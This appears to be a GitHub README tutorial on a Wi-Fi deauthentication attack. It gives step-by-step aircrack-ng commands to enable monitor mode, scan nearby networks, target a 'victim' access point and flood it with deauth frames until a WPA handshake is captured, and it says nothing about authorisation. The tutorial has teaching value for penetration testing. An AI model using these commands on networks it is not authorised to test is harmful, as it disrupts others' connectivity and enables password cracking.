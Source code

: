 # Wireless Penetration Testing via De-authentication Frames

## Pre-requisites
Enable **monitor mode** for your network adapter. You can use the following commands to enable monitor mode - 
```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
```
<img src="./images/step-1-enable-monitor-mode.png"></img>

# Steps to perform de-authentication attack

## Step-1: Check Interfering Process 
`airmon-ng` can be used to check the process currently running that **can interfere and prevent us** from performing our wireless penetration attack.<br>
Command used to check the interfering process is -<br>
```
sudo airmon-ng start wlan0
```
<img src="./images/step-2-check-interfering-process.png"></img>

## Step-2: Kill Interfering Process 
`airmon-ng` again can be used to kill the interfering processes discovered in step-1.<br>
Command used to kill the interfering process is -<br>
```
sudo airmon-ng check kill wlan0
```
<img src="./images/step-3-kill-interferring-process.png"></img>

## Step-3: Re-enable Monitor Mode 
After killing interfering processes, your network card would enter managed mode again. Use the [following] commands to enable monitor mode again

## Step-4: Monitor Wireless Connections Surrounding You
Using `airodump-ng`, you can **monitor the list of wi-fi networks** around you.<br>
Command used to monitor the list of wi-fi networks is -<br>
```
sudo airodump-ng wlan0
```
<img src="./images/step-4-check-wireless-connections-around-you.png"></img>

## Step-5: Monitor Devices Connected to Selected MAC Address
Using `airodump-ng`, you can also  **monitor the list MAC addresses that are connected to a particular wifi network**.<br>
Command used to monitor the MAC address is -<br>
```
sudo airodump-ng -c <channel-number> --bssid <MAC-address-of-victim-machine> -w <file-name> wlan0
```
<img src="./images/step-5-check-mac-addresses-connected-to-selected-wifi.png"></img>

## Step-6: Start Sending De-authentication Frames
In this step, using `aireplay-ng` you can **start sending de-auth frames** to victim's machine until 4-way handshake is captured.<br>
Command used to **send de-auth frames** is -<br>
```
aireplay-ng -0 0 -a <MAC-address-of-victim-machine> wlan0
```
<img src="./images/step-6-send-deauth-packets.png"></img>
